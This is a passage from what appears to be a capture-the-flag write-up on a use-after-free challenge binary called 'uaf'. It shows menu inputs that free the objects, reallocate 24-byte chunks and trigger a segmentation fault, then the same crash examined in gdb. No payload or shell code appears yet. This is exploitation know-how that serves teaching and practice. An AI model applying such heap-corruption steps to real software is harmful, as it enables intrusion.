 okay, lets test this out on the binary:

```
1. use
2. after
3. free
3

1. use
2. after
3. free
2
aaaaaaaa
your data is allocated

1. use
2. after
3. free
2
aaaaaaaa
your data is allocated

1. use
2. after
3. free
1
[1]    12282 segmentation fault (core dumped)  ./uaf 24 /dev/stdin
```

okay well, it seems as though if we were to free both pointers, then allocate 24 byte chunks, it will cause
a segmentation fault. We need to make sure that this exploitable, so lets open this binary up in gdb and rerun
our previous commands

```nasm
gef➤  start
[*] gdb is already running
gef➤  c
Continuing.
1. use
2. after
3. free
3
1. use
2. after
3. free
2
AAAAAAAA
your data is allocated
1. use
2. after
3. free
2
AAAAAAAA
your data is allocated
1. use
2. after
3. free
1

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400fd8 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
```